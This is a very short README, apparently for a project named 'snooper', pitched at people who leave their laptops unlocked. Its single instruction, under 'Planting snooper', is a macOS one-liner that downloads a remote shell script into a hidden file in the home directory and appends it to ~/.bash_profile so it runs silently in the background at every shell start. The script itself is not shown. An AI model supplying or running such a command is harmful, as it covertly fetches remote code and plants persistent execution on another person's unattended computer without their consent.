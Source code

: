 # snooper :hamster:
> You will regret leaving your laptop unlocked (unattended) 

### Planting snooper
---
#### MacOS
```
curl https://raw.githubusercontent.com/live-wire/snooper/master/snoop.sh --output ~/.snoop.sh --silent && echo "(. ~/.snoop.sh &)" >> ~/.bash_profile
```
